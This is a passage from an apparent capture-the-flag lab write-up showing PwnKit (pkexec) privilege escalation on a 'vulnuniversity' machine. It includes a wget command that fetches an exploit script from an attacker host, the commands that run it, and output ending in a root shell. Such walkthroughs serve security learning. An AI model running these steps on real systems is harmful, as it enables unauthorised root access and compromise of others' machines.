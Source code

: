 ```shell

```


- 2st: [/usr/bin/pkexec](https://github.com/ly4k/PwnKit)
I will download the script on target machines and then run it

```shell
www-data@vulnuniversity:/tmp/priv$ wget http://10.6.32.0/pkexec.py
                                   wget http://10.6.32.0/pkexec.py
wget http://10.6.32.0/pkexec.py
--2024-01-11 21:09:48--  http://10.6.32.0/pkexec.py
Connecting to 10.6.32.0:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3068 (3.0K) [text/x-python]
Saving to: 'pkexec.py'

pkexec.py           100%[===================>]   3.00K  8.40KB/s    in 0.4s    

2024-01-11 21:09:51 (8.40 KB/s) - 'pkexec.py' saved [3068/3068]

www-data@vulnuniversity:/tmp/priv$ chmod +x pkexec.py
                                   chmod +x pkexec.py
chmod +x pkexec.py
www-data@vulnuniversity:/tmp/priv$ python3 pkexec.py
                                   python3 pkexec.py
python3 pkexec.py
Do you want to choose a custom payload? y/n (n use default payload)  n
                                                                     n
n
[+] Cleaning pervious exploiting attempt (if exist)
[+] Creating shared library for exploit code.
[+] Finding a libc library to call execve
[+] Found a library at <CDLL 'libc.so.6', handle 7f88da8114e8 at 0x7f88da6a5908>
[+] Call execve() with chosen payload
[+] Enjoy your root shell
# id;hostnamectl
  id;hostnamectl
id;hostnamectl
uid=0(root) gid=33(www-data) groups=33(www-data)
   Static hostname: vulnuniversity
         Icon name: computer-vm
           Chassis: vm
        Machine ID: 8cfd988746864b75b0050f995d421653
           Boot ID: ec816d5110194efd9005f5d301a0db78
    Virtualization: xen
  Operating System: Ubuntu 16.04.6 LTS
            Kernel: Linux 4.4.0-142-generic
      Architecture: x86-64
# 
```

Thanks for reading.
### Join Us
Thanks for reading. **Let's learn, explore, and hack together**. **Join us on Discord [here](https://discord.gg/wBT9wr9ruG)**. 
